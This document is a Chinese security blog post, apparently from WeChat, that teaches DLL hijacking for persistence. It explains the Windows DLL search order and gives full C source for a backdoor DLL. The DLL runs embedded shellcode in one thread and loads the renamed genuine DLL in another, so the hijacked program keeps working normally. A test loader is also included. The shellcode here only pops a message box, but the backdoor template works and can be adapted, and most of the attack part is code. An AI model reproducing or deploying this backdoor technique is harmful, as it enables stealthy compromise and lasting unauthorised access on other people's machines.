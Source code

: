 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/P0Vsa5ydTMHWl5NNbxIWUw)

```
由于导入表中只包含DLL名而没有它的路径名，因此加载程序必须在磁盘上搜索DLL文件。
首先会尝试从当前程序所在的目录加载DLL，
如果没找到，则在Windows系统目录中查找，最后是在环境变量中列出的各个目录下查找。
利用这个特点，先伪造一个系统同名的DLL，提供同样的输出表，每个输出函数转向真正的系统DLL。
```

    接下来看我这个灵魂画手，可以看到 Dll 被劫持后的区别  

    可能有的人会问，我既然 dll 都已经劫持了，为什么还要载入原菜刀的 dll。  

这是因为我们的 dll 只是把原菜刀的 dll 进行了替换，而原菜刀. dll 的功能代码我们还没有载入，否则菜刀. exe 肯定是不能正常运行。

既然要做到权限维持，肯定就要把 shellcode 代码和原菜刀. dll 都要加载。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyysEANDwZ1ReVAwHSCickOf2oGtibF8ywfbo30PYsfe9GnnJwbIsfxgqI3X2MEAJIibl5Al7Om6NSLNQ/640?wx_fmt=png)

        在应用程序刚开始寻找 dll 的时候，也会有一个顺序。

假设，程序原 dll 在第五步 (当前目录)，而我们在第二步(系统目录) 放置后门

，应用程序到第二步 (系统目录) 找到之后，就不会在寻找。然后我们将第二步 (系统目录) 里面的后门在加载第五步里面真正的 dll。这样的话就做到了后门和程序正常执行。  

```
1. 程序所在目录；
2. 系统目录；
3. 16位系统目录；
4. Windows目录；
5. 当前目录；
6. PATH环境变量中的各个目录。
```

具体实现：

    1. 准备一个 dll 后门，这里为了方便用 MessageBox 弹窗演示，当我们 dll 被加载的时候，我创建了两个线程，Threads 线程用来执行 shellcode，Threads1 加载原 dll。  

```
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
typedef void(*CODE)();  

unsigned char  shellcode[]=
  "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
     "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
     "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
     "\x49\x0C\x8B\x09\x8B\x09\x8B\x69\x18\xAD\x3D\x6A\x0A\x38\x1E\x75"
     "\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD"
     "\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
     "\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24"
     "\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
     "\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9"
     "\x33\xDB\x53\x68\x74\x20\x00\x00\x68\x69\x6b\x61\x73\x68\x53\x61"
     "\x6e\x64\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x8B\xE6\xC3";


DWORD WINAPI Threads(LPVOID lpParameter){

  _asm{
   lea eax,shellcode
   push eax
   ret
  }


  return 0;
}

DWORD WINAPI Threads1(LPVOID lpParameter){
  LoadLibrary("A.dll");
  return 0;
}
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
           )
{
  switch(ul_reason_for_call){
  case DLL_PROCESS_ATTACH:
    CreateThread(NULL,0,(LPTHREAD_START_ROUTINE)Threads,0,0,NULL);
    CreateThread(NULL,0,(LPTHREAD_START_ROUTINE)Threads1,0,0,NULL);
    break;  
  }
  
    return TRUE;
}
```

    我为了给大家演示方便，思路清晰，就没有写导入表相关的东西。  

exe 程序代码如下，只载入了一个 met.dll

```
#include "stdafx.h"
#include <Windows.h>
int main(int argc, char* argv[])
{
  HMODULE h = LoadLibrary("met.dll");
  if(!h){
    printf("Dll Error\n");
  }
  getchar();
  return 0;
}
```

    我们看一下程序的正常执行流程，一直会打印 “正常 Dll 执行中”  

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyysEANDwZ1ReVAwHSCickOf2QuwkUcuCzPwqK0ibEKAFM3L3Y1jScRVRXYSFQ54yxJlml8ww5Afxovw/640?wx_fmt=png)

    当把后门. dll 更名为 met.dll 后，然后将原 dll 换个名字  

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyysEANDwZ1ReVAwHSCickOf2ibJf5cuaIgJ5ia6HdeHQ8ibUraJbrU2OZn6IeUHrYfG1ibRjTcyBCTuycw/640?wx_fmt=png)

    成功执行我们的 shellcode，之后 loadlibrary 加载原 dll，正常执行程序代码

提示：A.dll 这个原文件我为了演示清楚，放在了当前目录了。

像 dll 劫持的话，还有好多方法，大家可以花点时间弄的更完善一些~  

微信搜索关注：安全族    (回复 1234 获取安全课程)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8miblt1VEWyxYamBzambXjkc4piahKzqMl3DBsVbtpPWZUDaR1MaaTvZ2bopvic0OcQmOpyWbHSM3r71lgxQ782kA/640?wx_fmt=jpeg)
